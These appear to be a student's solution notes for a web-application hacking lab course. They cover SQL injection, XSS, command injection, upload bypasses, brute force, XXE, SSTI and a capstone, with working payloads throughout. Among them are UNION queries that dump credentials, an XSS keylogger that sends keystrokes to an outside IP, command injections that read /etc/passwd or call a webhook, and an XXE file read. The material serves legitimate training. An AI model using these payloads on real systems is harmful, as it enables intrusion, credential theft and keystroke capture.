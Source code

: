 # Lab solutions

## Injection0x01

- basic SQLi

## Injection0x02

- login as jeremy:jeremy
- check the cookie used as a session token
- break it by adding a '
- notice the page doesn't show the welcome message now that there is a SQL error
- write a script to extract jessamy's password

## Injection0x03

- sushi shop
- product search
- UNION select to enum other tables
- find creds & login

## Injection 0x04

`' OR '1'='1` as username for second order SQLi

`Tanjyoubi Sushi Rack' UNION SELECT username,password,null,null from injection0x03_users-- -`

## XSS 0x01

`<img src=x onerror=alert(1);>`

## XSS 0x02

`<img src=x onerror=alert(1);>`

`<script>function logKey(event){fetch("http://10.10.100.146:4444/e?c=" + event.key)} document.addEventListener('keydown', logKey);</script>`

## XSS 0x03

## Command Inj 0x01

`https://tcm-sec.com; whoami; asd`
`; cat /etc/passwd; asd`

## Command Inj 0x02

`https://tcm-sec.com/& whoami& asd`
`https://tcm-sec.com/ | sleep 10 | asd`

`https://webhook.site/<id>/?`whoami``

## Command Inj 0x03

`45123)^2))}';whoami;#`

## File upload 0x01

- Intercept
- Change contents
- Or turn off JS

## File upload 0x02

- Bypass the client-side again
- Intercept and change the content-type to image/png or image/jpeg

## File upload 0x03

- Bypass the client-side again
- Intercept and change the content-type again
- Use an extension that's not in the blocklist (.phtml)

## Authentication 0x01

- Brute force

## Authentication 0x02

- MFA code, switch username (code is OK for all users)
- Or, just brute the code

## Authentication 0x03

- Account lockout after 5 attempts, therefore brute the top 4 passwords against a username list

- common password list:

```
password
password123
letmein
manchesterunited
```

- common usernames list: `/usr/share/seclists/Usernames/Names/names.txt`

## XXE, IDOR, capstone

### XXE 0x01

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >]>
<creds><user>username</user><password>pass</password></creds>
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
```

### IDOR

`fuzz the parameter`

- find an admin user (or all of the admin users)

### SSTI 0x01

```
{{5*5}}
{{['cat\x20/etc/passwd']|filter('system')}}
```

###

### Capstone

SQLi to get into admin panel
File upload to get RCE

- XSS in the message alert
- XSS in account names probably? need to test

- brute force user accounts

- SQLi on adding rating

`http://localhost/capstone/coffee.php?coffee=3' or 1=1-- -`

`http://localhost/capstone/coffee.php?coffee=1%27%20union%20select%20null,username,password,null,null,null,null%20from%20users--%20-`
